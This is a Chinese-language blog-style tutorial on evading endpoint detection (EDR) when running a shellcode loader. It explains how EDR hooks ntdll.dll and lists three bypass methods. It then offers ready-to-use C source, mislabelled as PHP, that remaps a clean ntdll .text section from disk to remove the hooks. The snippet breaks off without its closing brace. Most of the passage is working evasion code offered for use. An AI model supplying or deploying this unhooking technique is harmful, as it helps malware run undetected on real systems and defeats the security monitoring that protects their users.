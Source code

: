 如何理解?

先介绍一下windowsapi的调用链

我们常用的一些windowsapi函数都存储在kernel32.dll的动态链接库中

比如说我们使用VirtualAlloc函数,那么他是如何被一步步调用的呢

首先是在3环,即用户层的 kernel32.dll中调用kernelVirtualAlloc

然后kernelVirtualAlloc去调取ntdll中的NtVirtualAlloc

最后NtVirtualAlloc通过syscall的方式去内存层实现分配内存

而杀软会对这些dll文件进行hook监控

当我们再调用VirtualAlloc时,edr会修改ntdll中的该函数使其jmp到edr内置的dll中,edr会

通过你的函数调用去查杀

**那么重点来了,如何去对抗呢?**

**1.在shellcodeloader时添加大量垃圾函数或者执行一些东西打乱edr查杀**

**2.直接通过syscall绕过edr的hook(某数字杀软晶核的环境下依然会被检测到)**

**3.重新加载一份干净的ntdll文件**

这里着重给大家介绍第三种,直接附上源码安心食用即可

```php
int main()
{
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;

    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll",
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + 
  hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress),
      hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase 
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
    CloseHandle(process);
```
